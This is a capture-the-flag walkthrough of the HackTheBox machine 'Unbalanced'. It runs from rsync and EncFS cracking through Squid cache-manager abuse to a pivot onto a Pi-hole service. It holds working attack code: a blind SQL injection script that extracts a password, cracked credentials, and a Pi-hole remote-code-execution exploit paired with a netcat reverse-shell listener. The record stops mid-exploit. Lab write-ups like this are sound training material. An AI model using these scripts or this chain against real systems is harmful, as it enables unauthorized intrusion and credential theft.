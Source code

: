 ---
layout: menu
title: "HTB Unbalanced"
description: "10.10.10.200 | 40 pts"
header-img: "boxes/screenshots/49_unbalanced/unbalanced.png"
tags: [hackthebox, htb, boot2root, writeup, linux, unbalanced, squid, squid proxy, rsync, nfs, encnfs, encrypted nfs, blind sql injection, sql injection, boolean-based sql injection, pi-hole, metasploit, password reuse]
---

:filesdir: /boxes/files/49_unbalanced/
:imagesdir: /boxes/screenshots/49_unbalanced/
:page-liquid:
:source-highlighter: rouge

+++<h1 style="color:red">+++ HTB Unbalanced (10.10.10.200) +++</h1>+++

---

:toc: 
:toc-title: TABLE OF CONTENTS

---

== PART 1 : INITIAL RECON

____
[source,shell,subs="verbatim,quotes"]
----
$ nmap -oN nmap.tcp.initial --min-rate 5000 -p- -v 10.10.10.200
  
  PORT     STATE SERVICE
  22/tcp   open  ssh
  873/tcp  open  rsync
  3128/tcp open  squid-http

$ nmap -oN nmap.tcp.unbalanced -p 22,873,3128 -sC -sV -T4 10.10.10.200

  PORT     STATE SERVICE    VERSION
  22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
  | ssh-hostkey: 
  |   2048 a2:76:5c:b0:88:6f:9e:62:e8:83:51:e7:cf:bf:2d:f2 (RSA)
  |   256 d0:65:fb:f6:3e:11:b1:d6:e6:f7:5e:c0:15:0c:0a:77 (ECDSA)
  |_  256 5e:2b:93:59:1d:49:28:8d:43:2c:c1:f7:e3:37:0f:83 (ED25519)
  873/tcp  open  rsync      (protocol version 31)
  3128/tcp open  http-proxy Squid http proxy 4.6
  |_http-server-header: squid/4.6
  |_http-title: ERROR: The requested URL could not be retrieved
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

----
____

---

== PART 2 : PORT ENUMERATION

+++<span style="color:orange">+++*`rsync`*+++</span>+++ seems to be open on port 873 and checking if there are any shared folders:

____
[source,shell,subs="verbatim,quotes"]
----
$ rsync -av --list-only rsync://10.10.10.200

  conf_backups    EncFS-encrypted configuration backups

----
____

There is a shared folder named, +++<span style="color:orange">+++*`conf_backups`*+++</span>+++, which based on the description is probably an encrypted file share but it contains config files so some sort of credentials might be lying around somewhere.

____
[source,shell,subs="verbatim,quotes"]
----
$ rsync -av rsync://10.10.10.200/conf_backups ./conf_backups

  receiving incremental file list
  ./
  ,CBjPJW4EGlcqwZW4nmVqBA6
  -FjZ6-6,Fa,tMvlDsuVAO7ek
  .encfs6.xml
  0K72OfkNRRx3-f0Y6eQKwnjn
  27FonaNT2gnNc3voXuKWgEFP4sE9mxg0OZ96NB0x4OcLo-
  2VyeljxHWrDX37La6FhUGIJS
  3E2fC7coj5,XQ8LbNXVX9hNFhsqCjD-g3b-7Pb5VJHx3C1
  3cdBkrRF7R5bYe1ZJ0KYy786
  3xB4vSQH-HKVcOMQIs02Qb9,
  4J8k09nLNFsb7S-JXkxQffpbCKeKFNJLk6NRQmI11FazC1
  5-6yZKVDjG4n-AMPD65LOpz6-kz,ae0p2VOWzCokOwxbt,
  5FTRnQDoLdRfOEPkrhM2L29P
  5IUA28wOw0wwBs8rP5xjkFSs
  6R1rXixtFRQ5c9ScY8MBQ1Rg
  7-dPsi7efZRoXkZ5oz1AxVd-Q,L05rofx0Mx8N2dQyUNA,
  7zivDbWdbySIQARaHlm3NbC-7dUYF-rpYHSQqLNuHTVVN1
  8CBL-MBKTDMgB6AT2nfWfq-e
  8XDA,IOhFFlhh120yl54Q0da
  8e6TAzw0xs2LVxgohuXHhWjM
  9F9Y,UITgMo5zsWaP1TwmOm8EvDCWwUZurrL0TwjR,Gxl0
  A4qOD1nvqe9JgKnslwk1sUzO
  Acv0PEQX8vs-KdK307QNHaiF
  B6J5M3OP0X7W25ITnaZX753T
  Chlsy5ahvpl5Q0o3hMyUIlNwJbiNG99DxXJeR5vXXFgHC1
  ECXONXBBRwhb5tYOIcjjFZzh
  F4F9opY2nhVVnRgiQ,OUs-Y0
  FGZsMmjhKz7CJ2r-OjxkdOfKdEip4Gx2vCDI24GXSF5eB1
  FSXWRSwW6vOvJ0ExPK0fXJ6F
  IymL3QugM,XxLuKEdwJJOOpi
  KPYfvxIoOlrRjTY18zi8Wne-
  Kb-,NDTgYevHOGdHCYsSQhhIHrUGjiM6i2JZcl,-PKAJm0
  Kpo3MHQxksW2uYX79XngQu-f
  KtFc,DR7HqmGdPOkM2CpLaM9
  Mv5TtpmUNnVl-fgqQeYAy8uu
  MxgjShAeN6AmkH2tQAsfaj6C
  Ni8LDatT134DF6hhQf5ESpo5
  Nlne5rpWkOxkPNC15SEeJ8g,
  OFG2vAoaW3Tvv1X2J5fy4UV8
  OvBqims-kvgGyJJqZ59IbGfy
  StlxkG05UY9zWNHBhXxukuP9
  TZGfSHeAM42o9TgjGUdOSdrd
  VQjGnKU1puKhF6pQG1aah6rc
  W5,ILrUB4dBVW-Jby5AUcGsz
  Wr0grx0GnkLFl8qT3L0CyTE6
  X93-uArUSTL,kiJpOeovWTaP
  Ya30M5le2NKbF6rD-qD3M-7t
  Yw0UEJYKN,Hjf-QGqo3WObHy
  Z8,hYzUjW0GnBk1JP,8ghCsC
  ZXUUpn9SCTerl0dinZQYwxrx
  ZvkMNEBKPRpOHbGoefPa737T
  a4zdmLrBYDC24s9Z59y-Pwa2
  c9w3APbCYWfWLsq7NFOdjQpA
  cwJnkiUiyfhynK2CvJT7rbUrS3AEJipP7zhItWiLcRVSA1
  dF2GU58wFl3x5R7aDE6QEnDj
  dNTEvgsjgG6lKBr8ev8Dw,p7
  gK5Z2BBMSh9iFyCFfIthbkQ6
  gRhKiGIEm4SvYkTCLlOQPeh-
  hqZXaSCJi-Jso02DJlwCtYoz
  iaDKfUAHJmdqTDVZsmCIS,Bn
  jIY9q65HMBxJqUW48LJIc,Fj
  kdJ5whfqyrkk6avAhlX-x0kh
  kheep9TIpbbdwNSfmNU1QNk-
  l,LY6YoFepcaLg67YoILNGg0
  lWiv4yDEUfliy,Znm17Al41zi0BbMtCbN8wK4gHc333mt,
  mMGincizgMjpsBjkhWq-Oy0D
  oPu0EVyHA6,KmoI1T,LTs83x
  pfTT,nZnCUFzyPPOeX9NwQVo
  pn6YPUx69xqxRXKqg5B5D2ON
  q5RFgoRK2Ttl3U5W8fjtyriX
  qeHNkZencKDjkr3R746ZzO5K
  sNiR-scp-DZrXHg4coa9KBmZ
  sfT89u8dsEY4n99lNsUFOwki
  uEtPZwC2tjaQELJmnNRTCLYU
  vCsXjR1qQmPO5g3P3kiFyO84
  waEzfb8hYE47wHeslfs1MvYdVxqTtQ8XGshJssXMmvOsZLhtJWWRX31cBfhdVygrCV5

  sent 1,452 bytes  received 411,990 bytes  28,513.24 bytes/sec
  total size is 405,603  speedup is 0.98

----
____

There are a lot of files but it still needs to be decrypted. One way to do this is by using +++<span style="color:orange">+++*`encfs2john`*+++</span>+++:

____
[source,shell,subs="verbatim,quotes"]
----
$ locate encfs

  /usr/share/john/encfs2john.py

$ python3 /usr/share/john/encfs2john.py ./conf_backups

  ./conf_backups:$encfs$192*580280*0*20*99176a6e4d96c0b32bad9d4feb3d8e425165f105*44*1b2a580dea6cda1aedd96d0b72f43de132b239f51c224852030dfe8892da2cad329edc006815a3e84b887add

$ python3 /usr/share/john/encfs2john.py ./conf_backups > conf_backups.hash

$ john --wordlist=/usr/share/wordlists/rockyou.txt conf_backups.hash

$ john --show conf_backups.hash

  ./conf_backups:bubblegum

  1 password hash cracked, 0 left

$ mkdir conf_backups_dec  

$ encfs $(pwd)/conf_backups $(pwd)/conf_backups_dec

  EncFS Password: bubblegum

----
____


Now that the files have been decrypted, the directory looks like this:

____
[source,shell,subs="verbatim,quotes"]
----
$ ls conf_backups_dec

  50-localauthority.conf              hdparm.conf                      parser.conf
  50-nullbackend.conf                 host.conf                        protect-links.conf
  51-debian-sudo.conf                 initramfs.conf                   reportbug.conf
  70debconf                           input.conf                       resolv.conf
  99-sysctl.conf                      journald.conf                    resolved.conf
  access.conf                         kernel-img.conf                  rsyncd.conf
  adduser.conf                        ldap.conf                        rsyslog.conf
  bluetooth.conf                      ld.so.conf                       semanage.conf
  ca-certificates.conf                libaudit.conf                    sepermit.conf
  com.ubuntu.SoftwareProperties.conf  libc.conf                        sleep.conf
  dconf                               limits.conf                      squid.conf
  debconf.conf                        listchanges.conf                 sysctl.conf
  debian.conf                         logind.conf                      system.conf
  deluser.conf                        logrotate.conf                   time.conf
  dhclient.conf                       main.conf                        timesyncd.conf
  discover-modprobe.conf              mke2fs.conf                      ucf.conf
  dkms.conf                           modules.conf                     udev.conf
  dns.conf                            namespace.conf                   update-initramfs.conf
  dnsmasq.conf                        network.conf                     user.conf
  docker.conf                         networkd.conf                    user-dirs.conf
  fakeroot-x86_64-linux-gnu.conf      nsswitch.conf                    Vendor.conf
  framework.conf                      org.freedesktop.PackageKit.conf  wpa_supplicant.conf
  fuse.conf                           PackageKit.conf                  x86_64-linux-gnu.conf
  gai.conf                            pam.conf                         xattr.conf
  group.conf                          pam_env.conf

----
____

Since the files are now readable, we can begin searching for interesting information:

____
[source,shell,subs="verbatim,quotes"]
----
$ cd conf_backups_dec

$ cat * | grep -i "pass" | grep -v "\#"

  mozilla/Buypass_Class_2_Root_CA.crt
  mozilla/Buypass_Class_3_Root_CA.crt
  Reject-Type: password
  Name: passwords
  Accept-Type: password
  Filename: /var/cache/debconf/passwords.dat
  Stack: config, passwords
  passwd:         files systemd
  ##cachemgr_passwd Thah$Sh1## menu pconn mem diskd fqdncache filedescriptors objects vm_objects counters 5min 60min histograms cbdata sbuf events
  cachemgr_passwd disable all

$ grep --with-filename "cachemgr_passwd" * | grep -v "#"

  squid.conf:cachemgr_passwd Thah$Sh1 menu pconn mem diskd fqdncache filedescriptors objects vm_objects counters 5min 60min histograms cbdata sbuf events
  squid.conf:cachemgr_passwd disable all
  
----
____

There is a password explicitly written in the +++<span style="color:orange">+++*`Squid Proxy`*+++</span>+++ config file. This makes sense being the name of the box is Unbalanced so this must be about a misconfigured load balancer or something as there is an +++<span style="color:orange">+++*`http proxy setup at port 3128`*+++</span>+++.

What was also listed beside the +++<span style="color:orange">+++*`cachemgr_passwd`*+++</span>+++ password are the options we could explore in the Squid Proxy Cache Manager.

I wrote a simple python script in order to explore the cache manager:

____
[source,python,subs="verbatim,quotes"]
----
from base64 import b64encode
from pwn import *
import sys

host = "10.10.10.200"
port = 3128
req = "GET cache_object://{}:{}/{} HTTP/1.1\r\n".format(host, port, sys.argv[1])

username = ""
password = "Thah$Sh1"
creds = b64encode("{}:{}".format(username, password).encode("utf-8"))
auth = "Authorization: Basic {}\r\n".format(str(creds)[2:-1])

http = "{}{}".format(req, auth)
squid = remote("10.10.10.200", 3128)
squid.sendline(http)

while True:
    try:
        line = squid.recv().decode("unicode_escape")[:-1]
        print(line)
    except: break
----
____

And now checking what we could do and get:

____
[source,shell,subs="verbatim,quotes"]
----
$ python3 squid.py menu | grep protected

  menu                   Cache Manager Menu                      protected
  pconn                  Persistent Connection Utilization Histograms    protected
  mem                    Memory Utilization                      protected
  diskd                  DISKD Stats                             protected
  fqdncache              FQDN Cache Stats and Contents           protected
  filedescriptors        Process Filedescriptor Allocation       protected
  objects                All Cache Objects                       protected
  vm_objects             In-Memory and In-Transit Objects        protected
  counters               Traffic and Resource Counters           protected
  5min                   5 Minute Average of Counters            protected
  60min                  60 Minute Average of Counters           protected
  histograms             Full Histogram Counts                   protected
  cbdata                 Callback Data Registry Contents         protected
  sbuf                   String-Buffer statistics                protected
  events                 Event Queue                             protected

$ python3 squid.py fqdncache

  [...OMITTED...]
  Address                                       Flg TTL Cnt Hostnames
  127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
  ::1                                             H -001   3 localhost ip6-localhost ip6-loopback
  172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
  172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
  127.0.0.1                                       H -001   1 localhost
  172.17.0.1                                      H -001   1 intranet.unbalanced.htb
  ff02::1                                         H -001   1 ip6-allnodes
  ff02::2                                         H -001   1 ip6-allrouters
----
____

There are three things interesting here -- +++<span style="color:orange">+++*`intranet.unbalanced.htb`*+++</span>+++ (172.17.0.1), +++<span style="color:orange">+++*`intranet-host2.unbalanced.htb`*+++</span>+++ (172.31.179.2), and +++<span style="color:orange">+++*`intranet-host3.unbalanced.htb`*+++</span>+++ (172.31.179.3).

Opening +++<span style="color:orange">+++*`intranet.unbalanced.htb`*+++</span>+++ after setting up my proxy (Foxy Proxy) leads me to:

____
.+++<span style="color:orange">+++__Proxy Settings__+++</span>+++

image::foxy_proxy.PNG[Foxy Proxy]
____

____
.+++<span style="color:orange">+++__Intranet Landing Page (`/intranet.php`)__+++</span>+++

image::intranet_landing_page.png[Landing Page]
____

Examining the reponse headers using `curl`:

____
[source,shell,subs="verbatim,quotes"]
----
$ curl -I --proxy "http://10.10.10.200:3128" http://172.17.0.1

  HTTP/1.1 302 Found
  Server: nginx/1.14.0 (Ubuntu)
  Date: Sat, 05 Dec 2020 22:12:03 GMT
  Content-Type: text/html; charset=UTF-8
  Location: intranet.php
  Intranet-Host: intranet-host3.unbalanced.htb
  X-Cache: MISS from unbalanced
  X-Cache-Lookup: MISS from unbalanced:3128
  Via: 1.1 unbalanced (squid/4.6)
  Connection: keep-alive
----
____

The internal load balancer will either bring you to +++<span style="color:orange">+++*`intranet-host2`*+++</span>+++ or +++<span style="color:orange">+++*`intranet-host3`*+++</span>+++ which contains a login form and a contact form which doesn't seem to do anything when you submit entries or fail to login.

But then you'll notice something missing... what happened to +++<span style="color:orange">+++*`intranet-host1`*+++</span>+++? Since +++<span style="color:orange">+++host2+++</span>+++ is at +++<span style="color:orange">+++172.31.179.2+++</span>+++ and +++<span style="color:orange">+++host3+++</span>+++ is at +++<span style="color:orange">+++172.31.179.3+++</span>+++, maybe it's at +++<span style="color:orange">+++172.31.179.1+++</span>+++.

____
[source,shell,subs="verbatim,quotes"]
----
$ curl -I --proxy "http://10.10.10.200:3128" http://172.31.179.1

  HTTP/1.1 200 OK
  Server: nginx/1.14.0 (Ubuntu)
  Date: Sat, 05 Dec 2020 22:38:45 GMT
  Content-Type: text/html; charset=UTF-8
  Intranet-Host: #intranet-host1.unbalanced.htb#
  X-Cache: MISS from unbalanced
  X-Cache-Lookup: MISS from unbalanced:3128
  Via: 1.1 unbalanced (squid/4.6)
  Connection: keep-alive

$ curl --proxy "http://10.10.10.200:3128" http://172.31.179.1

  Host temporarily taken out of load balancing for security maintenance.

----
____

And it does exist but this time, when you go to +++<span style="color:orange">+++*`/intranet.php`*+++</span>+++ and try to login, an error message now appears which was not apparent in the other hosted applications.

____
.+++<span style="color:orange">+++Error Message: Invalid credentials.+++</span>+++

image::intranet_host1_login.png[host1]
____

---

== PART 3 : EXPLOITATION

After testing a simple SQL injection payload like +++<span style="color:orange">+++*`' or '1'='1`*+++</span>+++, the form seems to be vulnerable as it returns a list of users and their respective roles. It is important to note that the form rejects capital letters so +++<span style="color:orange">+++*`' OR '1'='1`*+++</span>+++ will not work. Comment characters also seem to be rejected.

____
.+++<span style="color:orange">+++User list+++</span>+++

image::intranet_host1_sqli.png[SQL Injection]
____

Since we have an error message and given the limitations of the form, maybe it could be leveraged to extract passwords for the listed users. I'll focus on +++<span style="color:orange">+++bryan+++</span>+++ since he has the role of +++<span style="color:orange">+++System Administrator+++</span>+++.

I wrote another python script for this:

____
[source,python,subs="verbatim,quotes"]
----
import requests as r

target = "http://172.31.179.1/intranet.php"
proxy = { "http": "http://10.10.10.200:3128" }

char_set = "abcdefghihjklmnopqrstuvwxyz0123456789!@$%^&*()=_+,./<>?:"
password = ""
while True:
    for i in char_set:
        payload = {
            "Username": "bryan",
            "Password": "' or substring(Password,{},1)='{}' or '".format(len(password)+1, i)
        }
        res = r.post(target, proxies=proxy, data=payload)

        if "bryan@unbalanced.htb" in res.text:
            password += i
            print(password)
            break

    if i == char_set[-1]: break
----

[source,shell,subs="verbatim,quotes"]
----
$ python3 intranet.py

  i
  ir
  ire
  irea
  ireal
  ireall
  ireally
  ireallyl
  ireallyl0
  ireallyl0v
  ireallyl0ve
  ireallyl0veb
  ireallyl0vebu
  ireallyl0vebub
  ireallyl0vebubb
  ireallyl0vebubbl
  ireallyl0vebubble
  ireallyl0vebubbleg
  ireallyl0vebubblegu
  ireallyl0vebubblegum
  ireallyl0vebubblegum!
  ireallyl0vebubblegum!!
  #ireallyl0vebubblegum!!!#
----
____

Checking to see if the password works:
____
.+++<span style="color:orange">+++Successful login as bryan+++</span>+++

image::intranet_host1_bryan.png[bryan]
____

And it does!

---

== PART 3 : GENERATE USER SHELL (bryan)

____
[source,shell,subs="+macros"]
----
$ ssh -l bryan 10.10.10.200

  The authenticity of host '10.10.10.200 (10.10.10.200)' can\'t be established.
  ECDSA key fingerprint is SHA256:aiHhPmnhyt434Qvr9CpJRZOmU7m1R1LI29c11na1obY.
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  Warning: Permanently added '10.10.10.200' (ECDSA) to the list of known hosts.
  bryan@10.10.10.200\'s password: ireallyl0vebubblegum!!!

+++<span style="color:green">bryan@unbalanced</span>+++:+++<span style="color:#779ECB">~</span>+++$ ls -la

  -rw-r--r-- 1 bryan bryan  798 Jun 17 11:35 TODO
  -rw-r--r-- 1 root  root    33 Dec  5 14:18 user.txt

----
____

---

== PART 3 : PRIVILEGE ESCALATION (bryan -> root)

Examining the TODO file in bryan's home directory:
____
[source,shell,subs="+macros"]
----

+++<span style="color:green">bryan@unbalanced</span>+++:+++<span style="color:#779ECB">~</span>+++$ cat TODO

  ############
  # Intranet #
  ############
  * Install new intranet-host3 docker [DONE]
  * Rewrite the intranet-host3 code to fix Xpath vulnerability [DONE]
  * Test intranet-host3 [DONE]
  * Add intranet-host3 to load balancer [DONE]
  * Take down intranet-host1 and intranet-host2 from load balancer (set as quiescent, weight zero) [DONE]
  * Fix intranet-host2 [DONE]
  * Re-add intranet-host2 to load balancer (set default weight) [DONE]
  - Fix intranet-host1 [TODO]
  - Re-add intranet-host1 to load balancer (set default weight) [TODO]
  
  ###########
  # Pi-hole #
  ###########
  * Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
  * Set temporary admin password [DONE]
  * Create Pi-hole configuration script [IN PROGRESS]
  - Run Pi-hole configuration script [TODO]
  - Expose Pi-hole ports to the network [TODO]

----
____

The file basically confirms the path to user where intranet-host1 is being troubleshooted but the important thing here is that there is a +++<span style="color:orange">+++Pi-hole service+++</span>+++ running but is only available locally. It uses a temporary password so it's probably insecure and new credentials may probably be found in the configuration script being created as of the moment.

Checking to see what we can connect to locally:

____
[source,shell,subs="+macros,verbatim,quotes"]
----

+++<span style="color:green">bryan@unbalanced</span>+++:+++<span style="color:#779ECB">~</span>+++$ ss -plnt | grep 127.0.0.1

  LISTEN    0         128              #127.0.0.1:8080#             0.0.0.0:*       
  LISTEN    0         128              127.0.0.1:5553             0.0.0.0:*

+++<span style="color:green">bryan@unbalanced</span>+++:+++<span style="color:#779ECB">~</span>+++$ curl http://127.0.0.1:8080/

  [ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>

----
____

There is an error when trying to access the service running at port 8080 locally but according to this link:https://www.reddit.com/r/pihole/comments/ca9d45/problems_with_admin_interface_on_docker/[Reddit thread,window=_blank], it seems like you can go directly to +++<span style="color:orange">+++/admin/+++</span>+++.

____
[source,shell,subs="+macros,verbatim,quotes"]
----

+++<span style="color:green">bryan@unbalanced</span>+++:+++<span style="color:#779ECB">~</span>+++$ curl -I http://127.0.0.1:8080/admin/

  HTTP/1.1 200 OK
  X-Pi-hole: #The Pi-hole Web interface is working!#
  X-Frame-Options: DENY
  Set-Cookie: PHPSESSID=icng7lp4cktfauu6lt26inrot0; path=/
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Content-type: text/html; charset=UTF-8
  Date: Sun, 06 Dec 2020 00:09:08 GMT
  Server: lighttpd/1.4.45
----
____

The Pi-hole service can now be reached! However, it's running via docker so I decided to look for an IP it might be running from and maybe access it via Squid Proxy. Looking back into the file, squid.conf:

____
[source,shell,subs="+macros,verbatim,quotes"]
----
+++<span style="color:green">bryan@unbalanced</span>+++:+++<span style="color:#779ECB">~</span>+++$ cat squid.conf | grep dst

  acl intranet dstdomain -n intranet.unbalanced.htb
  #acl intranet_net dst -n 172.16.0.0/12#

+++<span style="color:green">bryan@unbalanced</span>+++:+++<span style="color:#779ECB">~</span>+++$ cat squid.conf | grep intranet_net

  acl intranet_net dst -n 172.16.0.0/12
  #http_access allow intranet_net#
----
____

+++<span style="color:orange">+++Access to the IP range 172.16.0.0/12 (172.16.0.0 – 172.31.255.255) is allowed+++</span>+++ via the proxy and checking the interfaces available to the machine, I decided to do a ping sweep in the IP range, 172.31.0.1/16.
____
[source,shell,subs="+macros,verbatim,quotes"]
----
+++<span style="color:green">bryan@unbalanced</span>+++:+++<span style="color:#779ECB">~</span>+++$ ip a | grep "inet "
  
  inet 127.0.0.1/8 scope host lo
  inet 10.10.10.200/24 brd 10.10.10.255 scope global ens160
  inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
  #inet 172.31.0.1/16 brd 172.31.255.255 scope global br-742fc4eb92b1#

+++<span style="color:green">bryan@unbalanced</span>+++:+++<span style="color:#779ECB">~</span>+++$ for x in {1..254}; do for y in {1..254}; do (ping -c1 172.31.$x.$y 2>/dev/null | grep "bytes from" &); done; done

  64 bytes from #172.31.11.3#: icmp_seq=1 ttl=64 time=0.248 ms
  64 bytes from 172.31.179.2: icmp_seq=1 ttl=64 time=0.175 ms
  64 bytes from 172.31.179.3: icmp_seq=1 ttl=64 time=0.148 ms
  64 bytes from 172.31.179.1: icmp_seq=1 ttl=64 time=0.122 ms
----
____

Aside from the previous intranet hosts, there is a new host identified --+++<span style="color:orange">+++172.31.11.3+++</span>+++. Trying to access it via Squid Proxy leads you to:
____
.+++<span style="color:orange">+++Pi-hole Landing Page+++</span>+++

image::pi-hole_landing_page.png[Pi-hole Landing Page]
____

Now going to the login page, and remembering that a temporary password is set for the admin account, I tried +++<span style="color:orange">+++"admin"+++</span>+++ and it went through but there is not much to do so I search also for an exploit for the current version of Pi-hole being run.
____
.+++<span style="color:orange">+++Pi-hole Login Page+++</span>+++

image::pi-hole_login.png[Pi-hole Login Page]
____
____
.+++<span style="color:orange">+++Pi-hole Admin Panel+++</span>+++

image::pi-hole_admin_panel.png[Pi-hole Admin Panel]
____
____
.+++<span style="color:orange">+++Pi-hole Version+++</span>+++

image::pi-hole_version.png[Pi-hole Version]
____

Looking for exploits:
____
[source,shell,subs="+macros,verbatim,quotes"]
----
$ searchsploit pi-hole

  searchsploit pi-hole
  ------------------------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                                       |  Path
  ------------------------------------------------------------------------------------- ---------------------------------
  Pi-Hole - heisenbergCompensator Blocklist OS Command Execution (Metasploit)          | php/remote/48491.rb
  #Pi-hole 4.3.2 - Remote Code Execution (Authenticated)                                | python/webapps/48727.py#
  Pi-hole 4.4.0 - Remote Code Execution (Authenticated)                                | linux/webapps/48519.py
  Pi-hole < 4.4 - Authenticated Remote Code Execution                                  | linux/webapps/48442.py
  Pi-hole < 4.4 - Authenticated Remote Code Execution / Privileges Escalation          | linux/webapps/48443.py
  Pi-Hole Web Interface 2.8.1 - Persistent Cross-Site Scripting in Whitelist/Blacklist | linux/webapps/40249.txt
  ------------------------------------------------------------------------------------- ---------------------------------
  Shellcodes: No Results

$ searchsploit -m python/webapps/48727.py

$ python 48727.py

  ╔═╗┬ ┬┌┐┌  ╔═╗┬┬ ┬┌─┐┬  ┌─┐
  ╠═╝││││││  ╠═╝│├─┤│ ││  ├┤
  ╩  └┴┘┘└┘  ╩  ┴┴ ┴└─┘┴─┘└─┘
        by @CyberVaca

  usage: 48727.py [-h] -u URL -p PORT -i IP -pass PASSWORD
  48727.py: error: argument -u is required
----
____

Setting up the exploit -- I forwarded the locally available service inside the machine since HTTP proxies are very unreliable when establishing reverse shells afterwhich I setup a listener via `netcat` in my machine:
____
[source,shell,subs="+macros,verbatim,quotes"]
----
$ sshpass -p 'ireallyl0vebubblegum!!!' ssh -l bryan -L 8080:127.0.0.1:8080 -f -N 10.10.10.200

$ nc -lvp 4444

  listening on [any] 4444 ...
----
____

Then I ran the exploit:

____
[source,shell,subs="+macros,verbatim,quotes"]
----
$ python 48727.py -u http://127.0.0.1:8080 -p 4444 -i 10.10.14.11 -pass admin

  ╔═╗┬ ┬┌┐┌  ╔═╗┬┬ ┬┌─┐┬  ┌─┐
  ╠═╝││││││  ╠═╝│├─┤│ ││  ├┤
